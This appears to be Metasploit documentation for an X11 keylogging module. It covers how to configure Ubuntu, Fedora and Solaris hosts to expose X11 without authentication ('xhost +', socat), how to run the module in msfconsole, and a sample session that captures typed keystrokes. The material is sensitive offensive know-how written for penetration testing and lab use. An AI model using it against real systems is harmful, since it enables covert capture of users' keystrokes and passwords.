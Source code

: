 ## Vulnerable Application

This module binds to an open X11 host to log keystrokes. The X11 service can accept
connections from any users when misconfigured with the command `xhost +`.
This module is a close copy of the old xspy c program which has been on Kali for a long time.
The module works by connecting to the X11 session, creating a background
window, binding a keyboard to it and creating a notification alert when a key
is pressed.

One of the major limitations of xspy, and thus this module, is that it polls
at a very fast rate, faster than a key being pressed is released (especially before
the repeat delay is hit). To combat printing multiple characters for a single key
press, repeat characters arent printed when typed in a very fast manor. This is also
an imperfect keylogger in that keystrokes arent stored and forwarded but status
displayed at poll time. Keys may be repeated or missing.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

### Ubuntu 22.04

#### Server

Getting X11 to listen on a TCP port is rather taxing, so we use socat to facilitate instead.

1. `sudo apt-get install ubuntu-desktop socat` # overkill but it gets everything we need
2. `sudo reboot` # prob a good idea since so much was installed
3. `sudo xhost +` # must be done through gui, not through SSH
4. `socat -d -d TCP-LISTEN:6000,fork,bind=<IP to listen to here> UNIX-CONNECT:/tmp/.X11-unix/X0`, you may need to use `X1` instead of `X0` depending on context.

## Verification Steps

1. Configure X11 to listen on port 6000, or use `socat` to open a socket.
1. Start msfconsole
1. Do: `use auxiliary/gather/x11_keyboard_spy`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should print keystrokes as they're pressed

## Options

### LISTENER_TIMEOUT

How many seconds to keylog for.
If set to `0`, wait forever. Defaults to `600`, 10 minutes.

### PRINTERVAL

The interval to print keylogs in seconds. Defaults to `60`.

## Scenarios

### Ubuntu 22.04

```
[*] Processing xspy.rb for ERB directives.
resource (xspy.rb)> use auxiliary/gather/x11_keyboard_spy
resource (xspy.rb)> set verbose true
verbose => true
resource (xspy.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/x11_keyboard_spy) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:6000 - Establishing TCP Connection
[*] 127.0.0.1:6000 - [1/9] Establishing X11 connection
[-] 127.0.0.1:6000 - Connection packet malformed (size: 8192), attempting to get read more data
[+] 127.0.0.1:6000 - Successfully established X11 connection
[*] 127.0.0.1:6000 - Version: 11.0
[*] 127.0.0.1:6000 - Screen Resolution: 958x832
[*] 127.0.0.1:6000 - Resource ID: 33554432
[*] 127.0.0.1:6000 - Screen root: 1320
[*] 127.0.0.1:6000 - [2/9] Checking on BIG-REQUESTS extension
[+] 127.0.0.1:6000 -   Extension BIG-REQUESTS is present with id 134
[*] 127.0.0.1:6000 - [3/9] Enabling BIG-REQUESTS
[*] 127.0.0.1:6000 - [4/9] Creating new graphical context
[*] 127.0.0.1:6000 - [5/9] Checking on XKEYBOARD extension
[+] 127.0.0.1:6000 -   Extension XKEYBOARD is present with id 136
[*] 127.0.0.1:6000 - [6/9] Enabling XKEYBOARD
[*] 127.0.0.1:6000 - [7/9] Requesting XKEYBOARD map
[*] 127.0.0.1:6000 - [8/9] Enabling notification on keyboard and map
[*] 127.0.0.1:6000 - [9/9] Creating local keyboard map
[+] 127.0.0.1:6000 - All setup, watching for keystrokes
[+] 127.0.0.1:6000 - X11 Key presses observed: te[space]quuick[space]rown[space]foxmps[space]oveerr[space]the[space]lazy[space]do
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[*] 127.0.0.1:6000 - Closing X11 connection
[+] 127.0.0.1:6000 - Logged keys stored to: /root/.msf4/loot/20240226150211_default_127.0.0.1_x11.keylogger_839830.txt
[-] 127.0.0.1:6000 - Stopping running against current target...
[*] 127.0.0.1:6000 - Control-C again to force quit all targets.
[*] Auxiliary module execution completed
```

## Confirming

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

The output will be very similar to the metasploit module, but may differ. Compare the below two entries (spaces added to xspy for alignment):

```
xspy: the      quck         rown       foxumps      over         the       lazy      do
msf:  te[space]quuick[space]rown[space]foxmps[space]oveerr[space]the[space]lazy[space]do
```
